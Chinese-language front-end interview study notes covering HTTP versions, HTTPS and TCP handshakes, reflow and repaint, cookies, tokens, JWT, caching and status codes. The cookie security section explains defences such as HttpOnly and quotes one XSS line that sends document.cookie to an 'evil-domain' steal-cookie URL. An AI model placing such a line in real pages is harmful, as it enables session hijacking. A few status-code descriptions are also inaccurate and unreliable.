* HTTPS可以有效的防止运营商劫持，解决了防劫持的一个大问题。

#### HTTP1.0
* **无法复用链接**，完成即断开，重新**慢启动**和 TCP 3次握手 
    * TCP 连接会随着时间进行自我调谐，起初会限制连接的最大速度，如果数据成功传输，会随着时间的推移提高传输的速度。这种调谐则被称为 TCP 慢启动
    * HTTP 1.0规定浏览器与服务器**只保持短暂的连接**，浏览器的每次请求都需要与服务器建立一个TCP连接，服务器完成请求处理后立即断开TCP连接，


#### HTTP1.1

* **长连接**(默认 **keep-alive**)，复用。 HTTP 1.1支持持久连接（HTTP/1.1的默认模式使用带流水线的持久连接），在一个TCP连接上可以传送多个HTTP请求和响应，减少了建立和关闭连接的消耗和延迟,但服务端的response依旧遵循FIFO（first in first out)规则 依次返回，可能会造成**线头阻塞**
* head of line blocking: **线头阻塞**，导致请求之间互相影响 第一个请求阻塞后，后面的请求都需要等待
* host 字段指定对应的虚拟站点 同一个IP同一个端口不同的虚拟Web站点。在一台物理服务器上可以存在多个虚拟主机（Multi-homed Web Servers），并且它们共享一个IP地址。HTTP1.1的请求消息和响应消息都应支持Host头域，且请求消息中如果没有Host头域会报告一个错误（400 Bad Request）。
* 新增功能:
    * **断点续传** 要求服务器从文件XXXX字节处开始传送  **206**
    * 身份认证
    * 状态管理
    * **cache 缓存**
        * Cache-Control
        * Expires
        * Last-Modified
        * Etag

#### HTTP2.0
[参考](https://cloud.tencent.com/developer/article/1181549)

* **多路复用**。 允许同时通过单一的 HTTP2.0 连接发起多重的请求-响应消息 双向数据流 ,多个请求可同时在一个连接上并行执行
* **二进制分帧层**。应用层http和传输层tcp之间 将所有传输的信息分割为更小的消息和帧（frame）,并对它们采用二进制格式的编码
* **首部压缩**。压缩http请求报文头部 首部压缩使得整个HTTP数据包小了很多，传输也就会更快
* **服务端推送**。 一种在客户端请求之前发送数据的机制。在 HTTP/2 中，服务器可以对客户端的一个请求发送多个响应。浏览器只请求了index.html，但是服务器把index.html、style.css、example.png全部发送给浏览器。这样的话，只需要一轮 HTTP 通信，浏览器就得到了全部资源，提高了性能。

#### 多路复用 二进制分帧层
在一个TCP连接里可以同时发起多个请求——响应消息，并且这些请求是并行执行的。这是因为HTTP2.0中加入了二进制分帧层，将数据拆成了更小的帧，并用二进制来保存，（避免了多样的文本协议解析）。并且通过分帧，使得数据可以在TCP连接中并行传输。

因为TCP连接的慢启动，导致如果每发起一个请求就要建立一次TCP连接，会带来极大的延迟。如果每次请求都通过同一个TCP连接，就可以避免这部分时间的消耗，提高传输速率

#### 头部压缩
头部压缩需要在支持 HTTP/2 的浏览器和服务端之间：
* 维护一份相同的静态字典（Static Table），包含常见的头部名称，以及特别常见的头部名称与值的组合；
* 维护一份相同的动态字典（Dynamic Table），可以动态的添加内容；
* 支持基于静态哈夫曼码表的哈夫曼编码（Huffman Coding）；

静态字典的作用有两个：
* 对于完全匹配的头部键值对，例如 “:method :GET”，可以直接使用一个字符表示；
* 对于头部名称可以匹配的键值对，例如 “cookie :xxxxxxx”，可以将名称使用一个字符表示。
同时，浏览器和服务端都可以向动态字典中添加键值对，之后这个键值对就可以使用一个字符表示了。

#### 服务器推送
服务端推送是一种在客户端请求之前发送数据的机制。当代网页使用了许多资源:HTML、样式表、脚本、图片等等。在HTTP/1.x中这些资源每一个都必须明确地请求。这可能是一个很慢的过程。浏览器从获取HTML开始，然后在它解析和评估页面的时候，增量地获取更多的资源。因为服务器必须等待浏览器做每一个请求，网络经常是空闲的和未充分使用的。

为了改善延迟，HTTP/2引入了server push，它允许服务端推送资源给浏览器，在浏览器明确地请求之前。一个服务器经常知道一个页面需要很多附加资源，在它响应浏览器第一个请求的时候，可以开始推送这些资源。这允许服务端去完全充分地利用一个可能空闲的网络，改善页面加载时间。

#### HTTPS
较为安全的网络传输协议 需要进行非对称的加解密，且需要三次握手
* 证书(公钥)
* SSL 加密
* 端口 443

那么结合两种加密方式，客户端将对称加密的密钥使用非对称加密的（服务端的）公钥进行加密，然后发送出去，服务端使用私钥进行解密得到对称加密的密钥，然后双方可以使用对称加密来进行沟通。

需要一个安全的第三方颁发证书（CA），证明身份的身份，防止被中间人攻击。

当别人把他的证书发过来的时候,我再用同样的Hash算法,再次生成消息摘要，然后用CA的公钥对数字签名解密,得到CA创建的消息摘要,两者一比,就知道中间有没有被人篡改了。

1. 客户端向服务器端索要并验证公钥。
2. 双方协商生成"对话密钥"。
3. 双方采用"对话密钥"进行加密通信。

具体步骤 SSL握手
1. 客户端发送请求，传递信息（支持的协议版本，**加密方法**，压缩方法，以及生成对话密钥的**随机数**）
2. 服务器回应，发送信息 （确认使用的加密通信协议版本，一个**随机数**用于生成对话密钥，确认**加密方法**，保存公钥的服务器证书）
3. 客户端回应，验证服务器证书，发送信息（一个**随机数**。该随机数用服务器公钥加密，防止被窃听，编码改变通知，客户端握手结束通知）。
    * 如果证书不是可信机构颁布、或者证书中的域名与实际域名不一致、或者证书已经过期，就会向访问者显示一个警告，由其选择是否还要继续通信。
    * 如果证书没有问题，客户端就会从证书中取出服务器的公钥。
    * 如果前一步，服务器要求客户端证书，客户端会在这一步发送证书及相关信息
4. 客户端和服务器就同时有了三个随机数，接着双方就用事先商定的加密方法，各自生成本次会话所用的同一把"会话密钥"。发送通知
    * 编码改变通知，表示随后的信息都将用双方商定的加密方法和密钥发送。
    * 服务器握手结束通知，表示服务器的握手阶段已经结束。这一项同时也是前面发送的所有内容的hash值，用来供客户端校验。

证书的验证
1. 验证证书是否在有效期内，证书是否被吊销
2. 校验证书是否为合法机构颁发，浏览器开始查找操作系统中已内置的受信任的证书发布机构CA，与服务器发来的证书中的颁发者CA比对
3. 从操作系统中取出颁发者CA 的公钥，然后对服务器发来的证书里面的签名通过公钥进行解密，得到摘要（digest,证书内容的hash值），据此验证证书的合法性。
4. 如果证书的公钥解出的数字签名内容和浏览器本身根据证书内容计算出的值相同,则认定该证书是有效的.

### TCP
> SYN ACK 是两种标志。分别表示 建立连接 和 确认

* 三次握手
    * 第一次握手(SYN=1, seq=x):客户端发送一个 TCP 的 **SYN** 标志位置1的包，指明客户端打算连接的服务器的端口，以及初始序号 X,保存在报头的序列号(Sequence Number)字段里。发送完毕后，客户端进入 **SYN_SEND** 状态。这样服务端就能得出结论：客户端的发送能力、服务端的接收能力是正常的。
    * 第二次握手(SYN=1,ACK=1,seq=y, ACKnum=x+1):服务器发回**确认包**(ACK)应答。即 SYN 标志位和 ACK 标志位均为1。服务器端选择自己 ISN 序列号，放到 Seq 域里，同时将确认序号(Acknowledgement Number)设置为客户的 ISN 加1，即X+1。 发送完毕后，服务器端进入 **SYN_RCVD** 状态。这样客户端就能得出结论：服务端的接收、发送能力，客户端的接收、发送能力是正常的。 
    * 第三次握手(ACK=1,ACKnum=y+1).客户端再次发送**确认包**(ACK)，SYN 标志位为0，ACK 标志位为1，并且把服务器发来 ACK 的序号字段+1，放在确定字段中发送给对方，并且在数据段放写ISN的+1.发送完毕后，客户端进入 **ESTABLISHED** 状态，当服务器端接收到这个包时，也进入 **ESTABLISHED** 状态，TCP 握手结束。在第三次握手时，服务端收到了客户端对第二次握手作的回应。从服务端的角度，我在第二次握手时的响应数据发送出去了，客户端接收到了。所以，我的发送能力是正常的。而客户端的接收能力也是正常的。
>经历了上面的三次握手过程，客户端和服务端都确认了自己的接收、发送能力是正常的。之后就可以正常通信了。

#### （ISN）是固定的吗
三次握手的一个重要功能是客户端和服务端交换ISN(Initial Sequence Number), 以便让对方知道接下来接收数据的时候如何按序列号组装数据。

如果ISN是固定的，攻击者很容易猜出后续的确认号，因此 ISN 是动态生成的。

#### 什么是半连接队列
服务器第一次收到客户端的 SYN 之后，就会处于 SYN_RCVD 状态，此时双方还没有完全建立其连接，服务器会把此种状态下请求连接放在一个队列里，我们把这种队列称之为半连接队列。当然还有一个全连接队列，就是已经完成三次握手，建立起连接的就会放在全连接队列中。如果队列满了就有可能会出现丢包现象。

#### 三次握手过程中可以携带数据吗
很多人可能会认为三次握手都不能携带数据，其实第三次握手的时候，是可以携带数据的。也就是说，第一次、第二次握手不可以携带数据，而**第三次握手是可以携带数据的**。

为什么这样呢？大家可以想一个问题，假如第一次握手可以携带数据的话，如果有人要恶意攻击服务器，那他每次都在第一次握手中的 SYN 报文中放入大量的数据，因为攻击者根本就不理服务器的接收、发送能力是否正常，然后疯狂着重复发 SYN 报文的话，这会让服务器花费很多时间、内存空间来接收这些报文。也就是说，第一次握手可以放数据的话，其中一个简单的原因就是会让服务器更加容易受到攻击了。

而对于第三次的话，此时客户端已经处于 established 状态，也就是说，对于客户端来说，他已经建立起连接了，并且也已经知道服务器的接收、发送能力是正常的了，所以能携带数据页没啥毛病。

* 四次挥手 断开连接
    * 第一次挥手(FIN=1，seq=x)假设客户端想要关闭连接，客户端发送一个 FIN 标志位置为1的包，表示自己已经没有数据可以发送了，但是仍然可以接受数据。发送完毕后，客户端进入 **FIN_WAIT_1** 状态。
    * 第二次挥手(ACK=1，ACKnum=x+1)服务器端确认客户端的 FIN 包，发送一个确认包，表明自己接受到了客户端关闭连接的请求，但还没有准备好关闭连接。发送完毕后，服务器端进入**CLOSE_WAIT** 状态，客户端接收到这个确认包之后，进入 **FIN_WAIT_2** 状态，等待服务器端关闭连接。
    * 第三次挥手(FIN=1，seq=y)服务器端准备好关闭连接时，向客户端发送结束连接请求，FIN 置为1。发送完毕后，服务器端进入 **LAST_ACK** 状态，等待来自客户端的最后一个ACK。
    * 第四次挥手(ACK=1，ACKnum=y+1)客户端接收到来自服务器端的关闭请求，发送一个确认包，并进入 **TIME_WAIT** 状态，等待可能出现的**要求重传的 ACK包**。服务器端接收到这个确认包之后，关闭连接，进入 **CLOSED** 状态。
    * 客户端等待了某个固定时间（两个最大段生命周期，2MSL，2 Maximum Segment Lifetime）之后，**没有收到服务器端的FIN** ，认为服务器端已经正常关闭连接，于是自己也关闭连接，进入 **CLOSED** 状态。

>这里特别需要主要的就是TIME_WAIT这个状态了，这个是面试的高频考点，就是要理解，为什么客户端发送 ACK 之后不直接关闭，而是要等一阵子才关闭。这其中的原因就是，要确保服务器是否已经收到了我们的 ACK 报文，如果没有收到的话，服务器会重新发 FIN 报文给客户端，客户端再次收到 ACK 报文之后，就知道之前的 ACK 报文丢失了，然后再次发送 ACK 报文。

* 滑动窗口: 流量控制 
    * 接收方通过通告发送方自己的窗口大小，从而控制发送方的发送速度，从而达到防止发送方发送速度过快而导致自己被淹没的目的
        * ACK：期望接收到的下一字节的序号  当前的窗口大小
    * 接受窗口
    * 发送窗口
* 拥塞处理
    * 慢开始 连接会随着时间进行自我调谐，起初会限制连接的最大速度，如果数据成功传输，会随着时间的推移提高传输的速度
    * 拥塞避免 一种处理丢失分组的方法 出现超时和接收到重复的确认时使用
    * 快速重传/超时重传 如果发送方发现收到三个连续的重复 ACK，或者超时了还没有收到任何 ACK，就会确认丢包，即5号包遗失了，从而再次发送这个包。通过这种机制，TCP 保证了不会有数据包丢失
    * 快速恢复  丢失的分组通过快速重传过程发送完，并被目的主机接受后，为了快速的恢复到较高的传输速度，就会进入快速恢复阶段

#### 面试回答
[参考](https://juejin.im/post/5ccd0dfc6fb9a0324a08bb73)
TCP的三次握手
1. 第一次握手：客户端给服务端发一个 SYN 报文，并指明客户端的**初始化序列号 ISN**(c)。此时客户端处于 SYN_Send 状态。
2. 第二次握手：服务器收到客户端的 SYN 报文之后，会以自己的 SYN 报文作为应答，并且也是指定了自己的初始化序列号 ISN(s)，同时会把客户端的 ISN + 1 作为 ACK 的值，表示自己已经收到了客户端的 SYN，此时服务器处于 SYN_REVD 的状态。
3. 第三次握手：客户端收到 SYN 报文之后，会发送一个 ACK 报文，当然，也是一样把服务器的 ISN + 1 作为 ACK 的值，表示已经收到了服务端的 SYN 报文，此时客户端处于 establised 状态。
4. 服务器收到 ACK 报文之后，也处于 establised 状态，此时，双方以建立起了链接。

三次握手的作用
1. 确认双方的接受能力、发送能力是否正常。
2. 指定自己的初始化序列号，为后面的**可靠传送**做准备。
3. 如果是 https 协议的话，三次握手这个过程，还会进行**数字证书的验证以及加密密钥的生成**。


### 回流和重绘
当元素的样式发生变化时，浏览器需要触发更新，重新绘制元素。这个过程中，有两种类型的操作，即重绘与回流。

* 重绘(repaint): 当元素**样式**的改变不影响布局时，浏览器将使用重绘对元素进行更新，此时由于只需要**UI层面的重新像素绘制**，因此 损耗较少
    * color visibility opacity
    * background 

* 回流(reflow): 当元素的**尺寸、结构或触发某些属性**时，浏览器会**重新渲染页面**，称为回流。此时，浏览器需要重新经过计算，计算后还需要重新页面布局，因此是较重的操作。会触发回流的操作:
    * 页面初次渲染
    * 浏览器窗口大小改变
    * 元素尺寸、位置、内容发生改变
        * width height padding margin display border
        * top bottom left right 
        * position float clear
    * 元素字体大小变化
        * text-align vertival-align 
        * font-size font-weight font-family
        * line-height overflow white-space
    * 添加或者删除可见的 dom 元素
    * 激活 CSS 伪类（例如：:hover）
    * 查询某些属性或调用某些方法
        * clientWidth、clientHeight、clientTop、clientLeft
        * offsetWidth、offsetHeight、offsetTop、offsetLeft
        * scrollWidth、scrollHeight、scrollTop、scrollLeft
        * getComputedStyle()
        * getBoundingClientRect()
        * scrollTo()

> 现代浏览器大多都是通过队列机制来批量更新布局，浏览器会把修改操作放在队列中，至少一个浏览器刷新（即16.6ms）才会清空队列，当你**获取布局信息**的时候，队列中可能有会影响这些属性或方法返回值的操作，即使没有，浏览器也会强制清空队列，触发回流与重绘来确保返回正确的值。

#### 最佳实践:
减少重绘和回流

生成新图层的方法:
* 3D 或者 CSS 透视转换属性 
* will-change:transform
* 使用属性 opacity 或者 transform 的 CSS animation 的元素,会在动画过程中暂时生成新的图层
* 使用加速 CSS过滤器的元素 transform:translateZ  translate3D

1. 尽量使用不会触发回流的css属性来实现样式，
    * 使用 translate（触发重绘，不触发回流） 代替 top (触发回流)
    * 使用 opacity（不会触发重绘，**需要生成一个独立的图层**，只是图层的重叠）代替 visibility （触发重绘）
2. 不使用 table 布局
3. 一次性修改 style 属性，浏览器有一个缓冲机制，会将多次回流重绘合并为一次
    * 使用 className += 'added-class'
4. 把 dom 离线进行修改， display:none
5. 避免多次获取上面提到的那些会触发回流的方法属性，因为会让浏览器的缓存机制失效，可以的话尽量用 变量 保存
6. 动画帧数要设置好
7. 把需要频繁回流重绘的单独抽出去一个图层，使用 transform:translateZ(0) 或 will-change:transform 的Css属性都能实现;
8. 启用 GPU 加速，transform:translateZ / translate3D，但是GPU的不能滥用，因为开启这个加速，会造成图层过多，反而另render 树对图层合并的时间变长，适得其反。

```js
const el = document.getElementById('test');
el.className += ' active';

.active{
    font-size:15px;
    color:red;
}
```


* css
    * transform 代替 top
    * visibility 代替 display
    * 避免使用table布局 
    * 将动画效果应用到position属性为absolute或fixed的元素上，以此脱离文档流，减少了对后续元素的影响
    * 尽可能在DOM树的最末端改变class，回流是不可避免的，但可以减少其影响。尽可能在DOM树的最末端改变class，可以限制了回流的范围，使其影响尽可能少的节点。
    * CSS3硬件加速（GPU加速），可以让transform、opacity、filters这些动画不会引起回流重绘， 对于动画的其它属性，比如background-color这些，还是会引起回流重绘的，不过它还是可以提升这些动画的性能。
* javascript
    * 避免频繁操作style样式，可汇总后统一 一次修改，或者使用class （不推荐）
    * 减少dom的频繁操作，增删次数，可使用 字符串 或者 documentFragment 一次性插入 （不推荐）
    * 极限优化时，使dom脱离文档流，修改样式可将其display: none后修改 （不推荐）
    * 避免多次触发上面提到的那些会触发回流的方法属性，可以的话尽量用 变量 存住
    

```js
const el = document.getElementById('test');
el.style.cssText += 'border-left: 1px; border-right: 2px; padding: 5px;';

const el = document.getElementById('test');
el.className += ' active';

.active{
    font-size:15px;
    color:red;
}
```

```js
// 频繁操作dom
  for(var i=0;i<100;i++)
       {
              var op=document.createElement("p");
              var oText=document.createTextNode(i);
              op.appendChild(oText);
              document.body.appendChild(op);
       }

//documentFragment 优化
 var oFrag=document.createDocumentFragment(); //创建一个空的 DocumentFragment.
       for(var i=0;i<100;i++) 
       {
              var op=document.createElement("P");
              var oText=document.createTextNode(i);
              op.appendChild(oText);
              oFrag.appendChild(op);
       }
       document.body.appendChild(oFrag);

//innerHTML 插入字符串
console.time('innerHTML');
  var ul = document.createElement('UL');
  var ih = '';
  for(var i= 0; i< 100000; i++){
    ih+= '<li>'+i+'</li>'
  }
  ul.innerHTML = ih;
  document.body.appendChild(ul);
  console.timeEnd('innerHTML');
```
### 存储
* 短暂性的时候，我们只需要将数据存在内存中，只在运行时可用

* 持久性存储，可以分为 浏览器端 与 服务器端
    * 浏览器:
        * cookie: **同源**
            * 是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。 通常用于存储用户身份，登录状态等
            * 持久性 cookie ： 永久保存在本地
            * 会话期 cookie ： 浏览器窗口关闭就被清除，会话期Cookie不需要指定过期时间（Expires）或者有效期（Max-Age）
            * 浏览器
                * 使用` document.cookie = "name = nirean; max-age=10800"` 往当前域名下的cookie添加一个cookie属性，用`; `隔开(注意空格),如果要设置多个字段，则需要多次执行
                * http请求 中自动携带， 体积上限为 4K，服务器发起的每一次新请求，浏览器都会将之前保存的Cookie信息通过Cookie请求头部再发送给服务器 `Cookie: yummy_cookie=choco; tasty_cookie=strawberry`
                * cookie是存于用户硬盘的一个文件，这个文件通常对应于一个域名，也就是说，cookie可以跨越一个域名下的多个网页，但不能跨越多个域名使用。
            * 服务器响应头
                * 产生Cookie的服务器可以向set-Cookie响应首部添加一个**Domain**属性来控制哪些站点可以看到那个cookie
                * 可自行设置过期时间,持久cookie 设置一个特定的过期时间（Expires）或者有效期（Max-Age）
                * path 为该网站下某个页面设置专门的cookie
                * Secure 只能https加密请求 
                * HttpOnly 不能用JavaScript修改cookie
        * web storage: localStorage / sessionStorage: 长久储存/窗口关闭删除 **同源**
            * 体积限制为 4~5M
            * localStorage.setItem(key,value) 存储自动转化为字符串
            * 同一浏览器的相同域名和端口的不同页面间可以共享相同的 localStorage，但是同一浏览器的相同域名和端口的不同页面不同页面间无法共享sessionStorage的信息。
        * indexedDB
    * 服务器:
        * 分布式缓存 redis
        * 数据库


```js
//服务器响应头部信息 用来设置浏览器的cookie
//访问 m.zhuanzhuan.58.com获得cookie
Set-cookie: id="123432";domain="m.zhuanzhuan.58.com";

//访问 m.zhuanzhuan.58.com/user获得cookie
Set-cookie：user="wang", domain="m.zhuanzhuan.58.com"; path=/user/

//使用https网络协议加密的情况下请求才能获得cookie
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure;

//
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2017 07:28:00 GMT; Secure; HttpOnly


//客户端对cookie的修改和添加
document.cookie = " name=value; domain=.mozilla.org; expires=Feb, 13-Mar-2018 11:47:50; path=/; security = true"

```
### cookie
服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。

* `<cookie name> = <cookie value>`
    * name 名称：一个唯一确定cookie的名称，部分大小写，cookie的名字必须是经过URL编码的，一般可以采用某个前缀在加上当前时间的做法，这样的话名称能够确保是唯一的，也比较方便。
    * value 值：存储在cookie中的字符串值，必须经过被URL编码
* 作用域 cookie应该被发送给哪些URL
    * domain 域：对于哪个域是有效的，如果没有设置的话，默认来自设置cookie的那个域，在上诉例子中就是`.Mozilla.org`
    * path 路径：指定域中的哪个路径，应该向服务器发送cookie，`/` 表示没有限制
* 失效时间
    * expires 失效时间：表示cookie何时应该被删除的时间戳，这个日期是GMT格式的日期，如果设置是以前的时间，cookie会被立刻删除。上诉cookie的失效时间是Feb,13-Mar-2018 11:47:50。
    * Max-Age
* 安全标志
    * HttpOnly 禁止JavaScript访问cookie，阻止XSS攻击
    * SameSite 服务器要求某个cookie在跨站请求时不会被发送，从而可以阻止跨站请求伪造攻击（CSRF），SamesiteCookie 目前有一个致命的缺陷，不支持子域
        * strict 任何第三方网站的跨站请求都不允许
        * lex 
    * Secure 安全标志 指定以后，cookie只有在使用SSL连接的时候才可以发送到服务器。

如何一级域名、二级域名、三级域名之间共享cookie
* 如果cookie设置为顶级域名，则全部的域名，包括顶级域名、二级域名、三级域名等，都可以共享该cookie
* 如果cokkie设置为当前域名，则当前域名及其下面的所有子域名可以共享该cookie
#### cookie 安全
* 网络窃听
网络上的流量可以被网络上任何计算机拦截，特别是未加密的开放式WIFI。这种流量包含在普通的未加密的HTTP清求上发送Cookie。在未加密的情况下，攻击者可以读取网络上的其他用户的信息，包含HTTP Cookie的全部内容，以便进行中间的攻击。比如：拦截cookie来冒充用户身份执行恶意任务（银行转账等）。

解决办法：服务器可以设置secure属性的cookie，这样就只能通过https的方式来发送cookies了。

* 会话劫持 XSS 跨站脚本攻击（恶意注入代码）
```js
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```
通过jsonp请求，直接将本地cookie信息作为参数发送出去，设置 HttpOnly就利用避免此类问题

解决 
* 对用户输入进行过滤来阻止XSS，比如转义，制定黑名单、白名单进行过滤；

* 跨站请求伪造（CSRF）
```js

```
如果此时点击图片就会进入一个网站，如果这个网站需要cookie来进行付款操作，恰巧你的本地cookie储存了账户密码，那么就能直接付款了。

解决办法
* 任何敏感操作都需要确认；
* 用于敏感信息的Cookie只能拥有较短的生命周期；

#### 第三方cookie 
比如广告和网络追踪

#### token
**cookie是一种实体, 而 session 和 token 都是一种用以验证的模式.**

token在客户端一般存放于localStorage，cookie，或sessionStorage中。在服务器一般存于数据库中

token 的认证方式类似于临时的证书签名, 并且是一种**服务端无状态的认证方式**, 非常适合于 REST API 的场景. 所谓无状态就是**服务端并不会保存身份认证相关的数据**。

token 的认证流程与cookie很相似
* 用户登录，成功后服务器返回Token给客户端。
* 客户端收到数据后保存在客户端
* 客户端再次访问服务器，将token放入headers中
* 服务器端采用filter过滤器校验令牌（token）的真假。校验成功则返回请求数据，校验失败则返回错误码

cookie：登陆后后端生成一个sessionid放在cookie中返回给客户端，并且服务端一直记录着这个sessionid 和 session，客户端以后每次请求都会带上这个sessionid，服务端通过这个sessionid来获取session来验证身份。所以别人拿到了cookie拿到了sessionid后，就可以完全替代你。

session: SessionID 是连接 Cookie 和 Session 的一道桥梁，大部分系统也是根据此原理来验证用户登录状态。

token：登陆后后端返回一个token给客户端，客户端将这个token存储起来，然后每次客户端请求都需要开发者手动将token放在header中带过去，服务端每次只需要对这个token进行验证就能使用token中的信息来进行下一步操作了。

cookie：用户点击了链接，cookie未失效，导致发起请求后后端以为是用户正常操作，于是进行扣款操作。

token：用户点击链接，由于浏览器**不会自动带上token**，所以即使发了请求，后端的token验证不会通过，所以不会进行扣款操作。

所以token是为了防止 CSRF ，并不能防御 XSS，因为 cookie localStorage sessionStorage 这些东西都是通过js代码获取到的

#### JWT （JSON Web Token ） Token加密方式
JWT 的原理是，服务器认证以后，生成一个 JSON 对象，发回给用户，以后，用户与服务端通信的时候，都要发回这个 JSON 对象。服务器完全只靠这个对象认定用户身份。为了防止用户篡改数据，服务器在生成这个对象的时候，会加上签名（详见后文）。

* Header JSON对象
    * alg 签名算法
    * token类型 ： JWT
* Payload 实际需要传输的数据 JSON对象
    * 签发人 过期时间
* Signature 签名，防止数据被篡改
    * 首先，需要指定一个密钥（secret）。这个密钥只有服务器才知道，不能泄露给用户。然后，使用 Header 里面指定的签名算法（默认是 HMAC SHA256），按照下面的公式产生签名。算出签名以后，把 Header、Payload、Signature 三个部分拼成一个字符串，每个部分之间用"点"（.）分隔，就可以返回给用户。

客户端收到服务器返回的 JWT，可以储存在 Cookie 里面，也可以储存在 localStorage。

此后，客户端每次与服务器通信，都要带上这个 JWT。你可以把它放在 Cookie 里面自动发送，但是这样不能跨域，所以更好的做法是放在 HTTP 请求的头信息Authorization字段里面。

另一种做法是，跨域的时候，JWT 就放在 POST 请求的数据体里面

### [Web Worker](http://www.ruanyifeng.com/blog/2018/07/web-worker.html)
现代浏览器为JavaScript创造的 多线程环境。可以新建并将部分任务分配到worker线程并行运行，两个线程可 独立运行，互不干扰，可通过自带的 消息机制 相互通信。

Worker 线程一旦新建成功，就会始终运行

1. 同源限制，分配给 Worker 线程运行的脚本文件，必须与主线程的脚本文件**同源**。
2. DOM 限制，Worker 线程所在的全局对象，与主线程不一样，**无法读取主线程所在网页的 DOM 对象**，也无法使用document、window、parent这些对象。但是，Worker 线程可以navigator对象和location对象。
3. 通信联系，Worker 线程和主线程不在同一个上下文环境，它们不能直接通信，**必须通过消息完成**，postMessage,onmessage。
4. 脚本限制，Worker 线程不能执行alert()方法和confirm()方法，但可以使用 **XMLHttpRequest** 对象发出 AJAX 请求。
5. 文件限制，Worker 线程无法读取本地文件，即不能打开本机的文件系统（file://），**它所加载的脚本，必须来自网络**。
6. 主线程与 Worker 之间的通信内容，可以是文本，也可以是对象。需要注意的是，这种通信是拷贝关系，即是**传值**而不是传址，Worker 对通信内容的修改，不会影响到主线程

### [缓存](https://juejin.im/entry/5ad86c16f265da505a77dca4)
* 浏览器每次发起请求，都会先在浏览器缓存中查找该请求的结果以及缓存标识
* 浏览器每次拿到返回的请求结果都会将该结果和缓存标识存入浏览器缓存中

* 强缓存 
    * Cache-Control/Expires: 浏览器判断缓存是否过期，未过期时，直接使用强缓存
        * Catch-Control（存放多久）
            * max-age  
            * s-maxage 公共资源（CDN）的缓存有效时间
            * no-cache 直接走协商缓存
            * no-store 不缓存
        * Expires(到某个时间为止)
        * Catch-Control优先级高
* 协商缓存
    * 当缓存已经过期时，使用协商缓存。浏览器携带缓存标识向服务器发起请求，由服务器根据缓存标识决定是否使用缓存的过程
    * 唯一标识方案: **Etag**(response 携带) & **If-None-Match**(request携带，上一次返回的 Etag): 服务器判断资源是否被修改，
    * 最后一次修改时间: **Last-Modified**(response) & **If-Modified-Since** (request，上一次返回的Last-Modified)
        * 如果一致，则直接返回 **304** 通知浏览器使用缓存
        * 如不一致，返回 200 ，则服务端返回新的资源
    * Last-Modified 缺点：
        * 周期性修改，但内容未变时，会导致缓存失效
        * 最小粒度只到 s， s 以内的改动无法检测到
    * Etag 的优先级高于 Last-Modified


### 常见状态码
1xx：指示信息--表示请求已接收，继续处理

2xx：成功--表示成果接收请求并已完成整个处理过程.

3xx：重定向--要完成请求必须进行更进一步的操作

4xx：客户端错误--请求有语法错误或请求无法实现

5xx：服务器端错误--服务器未能实现合法的请求

* 1xx: 表示成功接收请求, 要求客户端继续提交下一次请求才能完成整个处理过程
* **200: 一切正常, 返回的是正常请求结果 ,成功，并返回数据**
* 201: 创建成功
* 202: 更新成功
* 203: 成功，但未授权
* **204: 成功，无内容**
* 205: 成功，重置内容
* 206: 成功，部分内容  **断点重传**
* 301: 永久移动，重定向  
    * 服务器对你客户端说：‘你现在请求的资源不在我这，我没法给你，但是我可以告诉你，你可以去这个某个地址拿到这个资源，并且以后这个资源都会在我给你的地址那，你保存一下这地址，以后不要在找我要这个资源了’。
* 302/307: 临时移动，可使用原有URI
    * 服务器告诉你：‘你现在所请求的资源目前不在我这，被临时放到某个地址的服务器了，但是以后可能还会从某个服务器那拿过来，这次我给你一个临时的地址你去请求吧。
* **304: 资源未修改，可使用缓存**
* **305: 需代理访问**
* 400: 请求语法错误
* 401: 未授权 要求身份认证
* **403: 拒绝请求 服务器理解客户端请求, 但拒绝处理它, 通常用于服务器上文件或目录的权限设置所致**
* **404: 资源不存在 服务器上不存在客户机所请求的资源**
* **500: 服务器内部错误**
* 503 服务器不可用

### GET POST
1. GET把参数包含在URL中，而POST将数据放在BODY中。所以POST更加安全，GET请求的数据信息可以在缓存和历史记录里发现
2. GET方式提交的数据有长度限制，则POST的数据则可以非常大。
3. POST比GET安全，因为数据在地址栏上不可见。
4. GET 会被历史保存记录，POST中的参数不会被保留
5. GET只能进行url编码，POST支持更多编码类型（请求头中的Content-Type属性表示编码方式）
6. 对参数的数据类型，GET只接受ASCII字符，而POST没有限制
7. GET在浏览器回退时是无害的，而POST会再次提交请求
8. GET能被缓存，而POST不能
9. GET是幂等且安全的（不会改变服务器状态）(请求次数与资源无关)的。幂等性是指一次和多次请求某一个资源应该具有同样的副作用。简单来说意味着对同一URL的多个请求应该返回同样的结果。

GET和POST本质上就是TCP链接，并无差别。但是由于HTTP的规定和浏览器/服务器的限制，导致他们在应用过程中体现出一些不同


* get: 通常用于请求服务器发送某些资源
    * **缓存**、请求长度受限、会被历史保存记录 无副作用(不修改资源)，
    * 发送一个TCP请求 
    * 幂等
* post: 发送数据给服务器
    * 安全、大数据、更多编码类型 发送两个TCP请求 

* 最直观的区别就是GET把参数包含在URL中，POST通过request body传递参数


* get 请求资源
* post 向指定资源提交数据，请求服务器进行处理
* put 向指定资源位置上传其最新内容，更新资源
* head 只获取头部信息
* delete 指定资源会被删除
* options 会请求服务器返回该资源所支持的所有HTTP请求方法，比如CORS的预检请求

### AJAX
无需刷新页面也可以获得服务器的数据

JavaScript执行异步网络请求，在现代浏览器上写AJAX主要依靠XMLHttpRequest对象

只能请求同源

1. 创建XHR对象
2. 设置 `readyStateChange` 的回调函数
3. 设置 timeout ontimeout的回调函数，等待响应时间
3. open 打开请求 设置请求方式，url，以及是否异步发送请求
4. send 发送请求，设置 请求主体数据
5. 服务器接收消息并将消息填充到XHR中
    * status http状态码
        * 200 请求成功
        * 304 服务器文件为改变，可以直接使用缓存
    * **responseText** 响应主体返回的文本，当请求状态readyState变为XMLHttpRequest.DONE (4)，且status值为200（"OK"）时，responseText是全部后端的返回数据
    * response 返回响应的正文。返回的类型可以是 ArrayBuffer 、 Blob 、 Document 、 JavaScript Object 或 DOMString 。 
    * responseXML   响应的XML DOM 文档
    * statusText 状态具体信息
